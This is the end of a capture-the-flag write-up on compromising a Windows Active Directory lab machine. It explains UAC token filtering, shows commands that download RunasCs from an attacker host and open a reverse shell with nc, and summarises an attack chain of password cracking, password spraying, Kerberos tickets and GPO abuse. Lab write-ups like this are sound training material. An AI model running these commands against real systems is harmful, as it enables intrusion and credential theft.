- **Filtered admin tokens**: you start with a **limited token**, even if you're an admin
- To get full admin privileges, you must **"elevate"** — typically via `runas`, `RunasCS`, or running something "as administrator"
###### Why we can't Access Administrator's directories
- The session started from your shell was **not elevated**
- Windows enforces **access control per token**, and you didn’t have the **elevated token**
- Being a local admin doesn’t **immediately** give access — only the **elevated context** does
###### What to do next and why `RunasCS` could Work
`RunasCS` is a tool that:
- Uses `CreateProcessWithLogonW` or similar APIs
- Starts a **new process with elevated credentials**
- Forces a **refresh of your token** context
- Bypasses some `runas`/UAC quirks by launching under the **full admin token**
This allows:
- **our new process** (e.g., PowerShell, cmd) to **run with full admin rights**
- It can now read directories like `C:\Users\Administrator\`, access SAM files, etc.

So the problem is that we lack elevated tokens in order to access the Administrator's directory as local admin and we need to somehow **refresh** our tokens since we are now local admin.
Lets now use RunasCs to implement the above thought process.

##### Uploading RunasCs to the target to elevate tokens

Transfer RunasCs.exe on the machine on dir "C:\Users\M.SchoolBus"
https://github.com/antonioCoco/RunasCs/releases
```bash
python3 -m http.server 8080
```
Transfer the binary from our local machine to the target:
```shell
Invoke-WebRequest -Uri http://10.10.14.248:8080/RunasCs.exe -OutFile RunasCs.exe
```

we start our listener 
```shell
nc -lvnp 9999 
```
run the RunasCs binary
```shell
.\RunasCs.exe M.SchoolBus !suBcig@MehTed!R cmd.exe -r 10.10.14.248:9999
```
- Authenticates as user **`M.SchoolBus`** using plaintext password
- Launches a **command shell** (`cmd.exe`) in that user's security context
- Connects to IP **`10.10.14.248`** on port **`9999`**
- Redirects the shell's input and output over the network
**Result:** the listener on `10.10.14.248:9999` gets an **interactive shell**running as `M.SchoolBus`.

we got our shell, and grabbed the root flag 

```shell
1cd81a53f7669f142fa06dfe26f2b4a8
```
pwned 

----------------
# Summary

Here is the list of the steps simplified, per phase, for future reference and for quick reading: 

#### Reconnaissance
1. nmap scan -> chose ==http service== (port 80) to focus on
2. on the **web app's** login page found service ==version vulnerable to RCE==
#### Foothold
1. exploiting it gave ==shell== as `w.webservice` there
2. ==enumerated files and directories== and ==found database creds==
3. **connected** with those via the ==mysql== binary
4. ==enumerated the database==, found ==username== (f.frizzle) and password's plaintext ==hash== and ==salt==
5. used john with appropriate options to crack hash with salt, found pass 
6. ==tried win-rm== login for f.frizzle but no luck
7. updated my local ==kerberos config file==
8. ==generated ticket== for user f.frizzle
9. ==ssh via GSSAPI authentication== to user f.frizzle
10. grabbed user flag
#### Privesc
1. ==AD enumeration== revealed existence of a user with ==higher permissions== (M.SCHOOLBUS) to which f.frizzle has no permissions over
2. ==enumerated files and directories== and ==found recycle bin file==
3. the file contained a ==password==, but no username to associate it to
4. ==password spraying== to associate the found password with a user, found it related to user M.SCHOOLBUS (which we know has higher permissions), so we overcame the part of f.frizzle not having permissions over M.SCHOOLBUS)
5. similary with f.frizzle, now for M.SCHOOLBUS
6. ==generated ticket== for user M.SCHOOLBUS
7. ==ssh via GSSAPI authentication== to user M.SCHOOLBUS
8. ==enumerate groups== the user belongs to
9. found group ==Group Policy Creator Owners==, which can create/modify GPOs 
10. ==abused gpo== to become ==local admin== 
11. ==cant access== Administrator's directories 
12. ==elevated tokens== with RunasCS to access Administrator's directories and grab the user flag
13. grabbed root flag
--------
# Sidenotes

This was an exhausting machine, leveraging multiple techniques and enumeration on all phases.
The trickiest parts for me was the way of authenticating on the AD without the use of win-rm, and also the part where i was searching for information as user f.frizzle and concluded that it was located on the recycle bin. Even after this part the abuse of the gpo along with the use of RunasCs to elevate tokens as local admin wasnt the easiest process.
That being said, this was another valuable AD related machine that will for sure be on my notes for future reference.

keep pwning :)
